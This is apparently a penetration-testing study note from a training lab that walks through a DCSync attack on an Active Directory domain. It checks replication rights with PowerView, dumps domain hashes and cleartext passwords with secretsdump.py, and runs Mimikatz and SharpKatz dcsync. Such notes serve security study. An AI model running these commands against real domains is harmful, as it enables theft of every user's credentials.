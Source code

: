 # DCSync

technique for stealing the Active Directory password database by using the built-in \*\*`Directory Replication Service Remote Protocol (DRS**)`, which is used by Domain Controllers to replicate domain data. **use to read NTDS file (read all hashes of users)**

{% hint style="warning" %}
**need privilege `DS-Replication-Get-Changes-All`**
{% endhint %}

![image.png](<../../../../.gitbook/assets/image (1).png>)

***

*   **Using Get-DomainUser to View adunn's Group Membership - SID**

    ```powershell
    Get-DomainUser -Identity adunn  |select samaccountname,objectsid,memberof,useraccountcontrol |fl
    ```

    <figure><img src="../../../../.gitbook/assets/image 1.png" alt=""><figcaption></figcaption></figure>
*   **show privilege using sid**

    ```powershell
    $sid= "S-1-5-21-3842939050-3880317879-2865463114-1164"
    Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl
    ```

    ```powershell
    AceQualifier          : AccessAllowed
    ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
    ActiveDirectoryRights : ExtendedRight
    SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-1164
    ObjectAceType         : DS-Replication-Get-Changes-In-Filtered-Set

    AceQualifier          : AccessAllowed
    ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
    ActiveDirectoryRights : ExtendedRight
    SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-1164
    ObjectAceType         : DS-Replication-Get-Changes
    ```
*   **Extracting NTLM Hashes and Kerberos Keys Using secretsdump.py**

    ```powershell
    secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 
    ```

    <figure><img src="../../../../.gitbook/assets/image 2.png" alt=""><figcaption></figcaption></figure>

    **now we have 3 files with different type**
*

    <figure><img src="../../../../.gitbook/assets/image 3.png" alt=""><figcaption></figcaption></figure>
*   **Reversible Encryption**

    feature which using when service demand password as a clear text

    ![2025-06-27 15\_19\_25-reverse\_encrypt.png (1206×605) - Brave.png](<../../../../.gitbook/assets/2025 06 27_15_19_25 reverse_encrypt.png_(1206605)_ _Brave.png>)
*   **Enumerating Further using Get-ADUser**

    ```powershell
    Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl
    ```

    <figure><img src="../../../../.gitbook/assets/image 4.png" alt=""><figcaption></figcaption></figure>
*   **Checking for Reversible Encryption Option using Get-DomainUser**

    ```powershell
    Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol
    ```

    <figure><img src="../../../../.gitbook/assets/image 5.png" alt=""><figcaption></figcaption></figure>
*   **Displaying the Decrypted Password**

    ```powershell
    cat inlanefreight_hashes.ntds.cleartext 
    ```

    <figure><img src="../../../../.gitbook/assets/image 6.png" alt=""><figcaption></figcaption></figure>

    We will notice the tool decrypted the password and provided us with the cleartext value.

***

### **Performing the DSync Attack with Mimikatz**

we use **runas.exe** to perform Mimikatz work with the privilege of target user

### **Using runas.exe**

to use Mimikatz u must to target one user not all domain user like `secretsdump.py`

```powershell
runas /netonly /user:INLANEFREIGHT\adunn powershell
```

```powershell
.\mimikatz.exe SyncMaster757
```

<figure><img src="../../../../.gitbook/assets/image 7.png" alt=""><figcaption></figcaption></figure>

```powershell
privilege::debug
lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
```

### **using sharpKatz**

```powershell
.\sharpKatz.exe --Command dcsync 
```

***
